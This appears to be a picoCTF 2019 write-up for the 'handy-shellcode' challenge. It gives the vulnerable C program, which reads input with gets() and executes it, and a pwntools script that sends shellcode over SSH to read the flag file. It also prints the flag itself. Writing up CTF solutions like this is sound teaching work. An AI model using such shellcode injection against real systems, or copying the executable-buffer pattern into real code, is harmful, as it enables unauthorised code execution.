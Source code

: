 # Binary Exploitation
```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 148
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter your shellcode:");
  vuln(buf);

  puts("Thanks! Executing now...");
  
  ((void (*)())buf)();


  puts("Finishing Executing Shellcode. Exiting now...");
  
  return 0;
}
```
This program uses c's ability to treat a data pointer as a function pointer. Therefor we can send it any shellcode we want. To do this we use [pwntools](https://github.com/Gallopsled/pwntools)

```python
from os import environ
from pwn import *

EXEC='/problems/handy-shellcode_1_ebc60746fee43ae25c405fc75a234ef5/vuln'
FLAG='/problems/handy-shellcode_1_ebc60746fee43ae25c405fc75a234ef5/flag.txt'

s = ssh(host='2019shell1.picoctf.com',
        user=environ["PICOUSER"],
        password=environ["PICOPSWD"])
sh = s.process(EXEC)
shellcode = asm(shellcraft.i386.cat(FLAG))
sh.sendlineafter('Enter your shellcode:', shellcode)
x = sh.recvrepeat()
print(x.decode(errors='ignore').split('...')[-1][1:])
s.close()

```
Notes:
    - We do this on our own machine, it's just nicer
    - The username and password should be in the bash variables `PICOUSER` and `PICOPSWD` respectivly
    - `shellcraft.i386.cat` constucts asembly to cat the flag. The `asm` function turns the string code to binary.
    - We need to do some annoying binary conversion. 

flag: `picoCTF{h4ndY_d4ndY_sh311c0d3_2cb0ff39}`